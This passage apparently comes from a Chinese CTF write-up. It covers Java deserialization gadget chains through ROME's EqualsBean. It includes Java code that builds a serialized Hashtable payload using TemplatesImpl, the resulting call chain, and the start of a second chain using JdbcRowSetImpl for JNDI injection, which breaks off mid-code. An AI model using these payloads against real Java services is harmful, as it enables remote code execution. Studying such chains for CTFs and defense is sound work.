 ```java
            HashMap map1 = new HashMap();
            HashMap map2 = new HashMap();
            map1.put("yy", bean);
            map1.put("zZ", templates);
            map2.put("zZ", bean);
            map2.put("yy", templates);
            Hashtable table = new Hashtable();
            table.put(map1, "1");
            table.put(map2, "2");
            setFieldValue(bean, "_beanClass", Templates.class);
            setFieldValue(bean, "_obj", templates);
            return serialize(table);
        } catch (Exception e) {
            e.printStackTrace();
        }
        return new byte[]{};
    }
}
```
让我们来实际测试一下长度:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220307105342.png)
最终base64之后的payload长度只有1452，完美符合我们的预期:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220307105459.png)
### 利用链
```
Hashtable.readObject()
  Hashtable.reconstitutionPut()
    EqualsBean.equals(TemplatesImpl)
      EqualsBean.beanEquals(TemplatesImpl)
        pReadMethod.invoke(_obj, NO_PARAMS) == TemplatesImpl.getOutputProperties()
          ...
```

## 新链2(不符合题目要求)
实际上我们知道`pReadMethod.invoke(_obj,NO_PARAMS)`最终会调用到_obj的所有getter方法，根据我们对反序列化链的了解，我们也可以利用`JdbcRowSetImpl.getDatabaseMetaData()`方法最终触发JNDI注入，我们只需要将sink修改一下即可:
```java
package top.longlone;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import sun.misc.BASE64Encoder;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ROME {
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
```